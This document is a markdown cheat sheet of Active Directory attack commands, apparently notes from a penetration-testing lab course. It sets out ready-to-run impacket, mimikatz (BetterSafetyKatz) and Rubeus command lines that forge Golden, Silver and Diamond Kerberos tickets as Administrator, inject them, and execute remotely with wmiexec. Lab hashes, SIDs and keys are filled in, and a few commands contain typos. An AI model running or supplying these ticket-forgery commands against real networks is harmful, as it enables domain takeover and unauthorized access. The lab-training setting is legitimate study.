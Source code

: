 #### Ticketer
```bash
ticketer.py -domain-sid <domain-sid> -domain <domain> -nthash <nthash> Administrator
```

### Silver Ticket
#### BetterSafetyKatz
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
#### Rubeus
```powershell
C:\AD\Tools\Rubeus.exe silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:6e58e06e07588123319fe02feeab775d /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```
#### impacket
```bash
ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn> <username>
```
#### Use Silver Ticket - Linux
```cmd
export KRB5CCNAME=<TGS_ccache_file>
wmiexec.py  <domain>/<user>@<hostname> -k -no-pass
```
#### Use Silver Ticket - Windows - mimikatz
```cmd
kerberos::ptt <ticket_file>
```
#### Use Silver Ticket - Windows - Rubeus
```cmd
Rubeus.exe ppt /ticket:<ticket_file>
```

### Diamond Ticket
#### Rubeus
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
```powershel
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp- dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
